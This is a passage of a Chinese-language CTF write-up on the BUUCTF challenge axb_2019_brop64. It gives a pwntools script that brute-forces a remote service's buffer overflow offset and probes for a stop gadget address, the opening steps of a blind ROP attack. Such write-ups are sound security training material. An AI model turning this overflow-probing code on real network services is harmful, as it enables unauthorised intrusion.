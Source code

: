 ```python
```

找不到合适的libc



#### BUUCTF

可以写BUUCTF的BROP的在线环境

[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#axb_2019_brop64)

这是exp

```python
from pwn import *
from pwn import p64



def getbufferflow_length():
    i = 210
    while 1:
        try:
            p = remote("node5.buuoj.cn","29429")
            payload = b'a'*i
            p.sendlineafter("Please tell me:",payload)
            output = p.recvall()
            sleep(0.1)
            p.close()
            if b'Goodbye!' not in output:
                log.success("success offset : "+str(i))
                return i
            else:
                i += 1
        except EOFError:
            p.close()
            log.success("success offset : "+str(i))
            return i

# offset = getbufferflow_length()
offset = 216

def get_stop_addr(offset):
    addr = 0x4006e0
    while True:
        # sleep(0.1)
        addr += 1
        payload = b"A"*offset + p64(addr)
        try:
            p = remote("node5.buuoj.cn","29429")
            p.sendlineafter(b"Please tell me:",payload)
            data1 = p.recvline()
            print(data1)
            p.close()
            if b'Hello' in data1:
                log.info("stop address: 0x%x" % addr)
                return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1

# get_stop_addr(offset)
```